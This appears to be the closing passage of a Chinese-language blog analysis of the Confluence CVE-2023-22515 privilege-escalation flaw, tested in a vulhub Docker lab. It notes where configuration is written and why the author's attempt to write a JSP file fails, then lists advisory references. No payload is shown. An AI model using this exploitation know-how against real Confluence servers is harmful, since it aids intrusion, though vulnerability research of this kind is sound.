[](https://xzfile.aliyuncs.com/media/upload/picture/20231110154739-6bd4c7e0-7f9d-1.png)

最终调用saveDocumentTo，使用XMLWriter写入文件

而观察堆栈可以看出docker环境默认是`/var/atlassian/application-data/confluence/confluence.cfg.xml`

但是<>会在进入拦截器时被转义,使用编码等方式时解析jsp会出问题，并且vulhub docker环境默认web目录还没有权限写。

## Reference

[https://confluence.atlassian.com/security/cve-2023-22515-privilege-escalation-vulnerability-in-confluence-data-center-and-server-1295682276.html](https://confluence.atlassian.com/security/cve-2023-22515-privilege-escalation-vulnerability-in-confluence-data-center-and-server-1295682276.html)

[https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2023-22515](https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2023-22515)

[https://mp.weixin.qq.com/s/rIfYrO1i4LPpgCGyxSLHUg](https://mp.weixin.qq.com/s/rIfYrO1i4LPpgCGyxSLHUg)
